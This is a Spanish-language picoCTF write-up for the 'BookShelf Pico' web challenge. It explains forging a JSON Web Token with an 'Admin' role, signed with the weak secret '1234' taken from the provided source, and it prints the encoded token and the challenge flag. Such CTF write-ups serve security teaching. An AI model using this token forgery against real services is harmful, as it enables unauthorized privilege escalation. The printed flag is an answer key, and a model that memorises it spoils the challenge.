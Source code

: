 ## Objetivo
BookShelf Pico, my premium online book-reading service.I believe that my website is super secure. I challenge you to prove me wrong by reading the 'Flag' book!Here are the credentials to get you started:

- Username: "user"
- Password: "user"

Source code can be downloaded [here](https://artifacts.picoctf.net/c/479/bookshelf-pico.zip).Website can be accessed [here!](http://saturn.picoctf.net:60968/).
## Solución
header:
```bash
{
  "typ": "JWT",
  "alg": "HS256"
}
```
payload:
```bash
{
  "role": "Admin",
  "iss": "bookshelf",
  "exp": 1730604863,
  "iat": 1730000063,
  "userId": 2,
  "email": "admin"
}
```
verify signature:
```bash
HMACSHA256(
  base64UrlEncode(header) + "." +
  base64UrlEncode(payload),
  1234
)
```
Encoded:
```bash
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiQWRtaW4iLCJpc3MiOiJib29rc2hlbGYiLCJleHAiOjE3MzA2MDQ4NjMsImlhdCI6MTczMDAwMDA2MywidXNlcklkIjoyLCJlbWFpbCI6ImFkbWluIn0.Fj3JU-OdArC1S3r9PVhW_f4modEQ66gV8AARQN14T1o
```
## Notas Adicionales
En este reto web nos dan el codigo de la pagina y ademas la pagina en si abriendo una instancia, dentro de el codigo de la pagina decia que la signature era `1234`.
asi que lo que hice fue modificar el token pero cambiando el email y el role a `Admin` y `admin` respectivamente, ademas de la firma a `1234`.
recargando la pagina y abriendo el libro flag obtenemos la flag:
```bash
Great job! Here’s your flag:picoCTF{w34k_jwt_n0t_g00d_d7c2e335}
```

### Referencias
jason web token decoder
https://jwt.io/